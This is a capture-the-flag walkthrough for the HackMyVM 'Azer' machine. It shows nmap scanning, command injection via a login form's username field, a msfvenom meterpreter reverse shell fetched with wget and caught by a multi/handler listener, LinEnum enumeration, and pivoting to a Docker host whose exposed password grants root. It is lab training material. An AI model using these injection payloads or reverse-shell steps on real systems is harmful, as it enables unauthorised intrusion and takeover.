





<iframe src="https://hackmyvm.eu/machines/vmcard.php?vm=Azer" frameborder="0" width="600" height="600"></iframe>


# Introduction
In this write-up I will show how to obtain root access in the Azer VM by [tasiyanci](https://hackmyvm.eu/profile/?user=tasiyanci).
The VM was his birthday gift to the community

The VM was setup in my isolated network on Proxmox. If you  want to do it the same way, you can find my guide here: [Setup Virtual Box in Proxmox]()

Basics:
- IP 
  - 10.10.99.14

# First Enumeration with Nmap
Starting with the enumeration of the VM first

```bash
sudo nmap -sV -A -T4 -Pn -p- -oN azer_scan_fast.txt -vv 10.10.99.14
```

The resutlts show the open ports 80 and 3000 both indicating html with a page titled "Login Page" on port 3000.

```bash
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.57 ((Debian))
|_http-title: L&#214;SEV | L&#246;semili &#199;ocuklar Vakf\xC4\xB1
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-favicon: Unknown favicon MD5: 669C744212A3D236CB8FEBE231CB5451
|_http-server-header: Apache/2.4.57 (Debian)
3000/tcp open  http    syn-ack ttl 63 Node.js (Express middleware)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Login Page

```

# Look around
Without bothering the port 80, let's directly see what the login form on port 3000is up to: 


Mhmm, nice. Let's see how it behaves. Trying "admin" / "admin" leads to:



# Broken login form

That's nice: The login is running code. In this case, trying to execute get.sh in the user "azer"s home dir. It looks like we can execute code on the server by providing it in the username field. 

Trying `2>/dev/null; ls` should provide us with some good response as we ignore the error on the first command and add a next command to it.

And there we are with RCE and directly seeing the users flag:



The user flag can be seen by `2>/dev/null; cat user.txt`


# Reverse shell

Alright, to make our live easier, let's run a reverse shell on the target connecting back to port 4444 on our machine.
For this I like to use https://www.revshells.com/ as it provides an easy way to configure both parties in the mix.
To upload the shell we use a simple wget command on the target machine.


```bash
# Generating the meterpreter payload to be executed on the target
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=XX.XX.XX.10 LPORT=4444 -f elf -o reverse.elf

# Starting the good ol' python web server 
python3 -m http.server 8080
```
Now uploading the shell with wget `2>/dev/null; wget XX.XX.XX.10/reverse.elf`



And it worked!

Now we just need to start our listener, make reverse.elf executable and run it to get a meterpreter shell.

```bash
# Starting the listener on our attack box
msfconsole -q -x "use multi/handler; set payload linux/x64/meterpreter/reverse_tcp; set lhost XX.XX.XX.10; set lport 4444; exploit"
```
 Making the shell executable with `2>/dev/null; chmod +x reverse.elf` and then execute it with `2>/dev/null; ./reverse.elf`

And there we have our meterpreter session: 
 

Be aware that the login page need to be kept open in order to keep the meterpreter shell alive.

# LinEnum.sh - Check

Let's now see what the can exploit on the target. For this I will upload LinEnum.sh, make it executable and run it. 

```bash
meterpreter > upload LinEnum.sh
[*] Uploading  : /home/c0xwl/LinEnum.sh -> LinEnum.sh
[*] Uploaded -1.00 B of 45.54 KiB (-0.0%): /home/c0xwl/LinEnum.sh -> LinEnum.sh
[*] Completed  : /home/c0xwl/LinEnum.sh -> LinEnum.sh
meterpreter > chmod +rwx LinEnum.sh 
meterpreter > shell
./LinEnum.sh

[...]

[+] Looks like we're hosting Docker:
Docker version 25.0.3, build 4debf41

```
# Docker and Hosts

The output provides some interesting details. First of all, we are on docker... Maybe there is something else running here...

```bash
# Still in the shell
hostname -I
10.10.99.14 172.17.0.1 10.10.10.1 
```
Maybe there is something else reachable from here. We should scan our surroundings based on the two other hosts provided.

```bash
^C
Terminate channel 2? [y/N]  y
meterpreter > arp

ARP cache
=========

    IP address   MAC address        Interface
    ----------   -----------        ---------
    10.10.10.10  02:42:0a:0a:0a:0a  br-333bcb432cd5
    10.10.99.1   bc:24:11:86:70:ea  ens18
```

Alright, something is running on 10.10.10.10. Let's find out!

Back in the shell and curl to that IP

```bash
meterpreter > shell
curl 10.10.10.10
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    17  100    17    0     0   8933      0 --:--:-- --:--:-- --:--:-- 17000
.:.AzerBulbul.:.
```

What is this? It is plain but with weird characters... maybe a password?


# Root Flag


```bash
su azer
Password: .:.AzerBulbul.:.
su: Authentication failure
su root
Password: .:.AzerBulbul.:.
whoami
root
```
Well, I did not expect that...
The root flag can be found in the /root directory.

Thanks for reading my write-up!

# End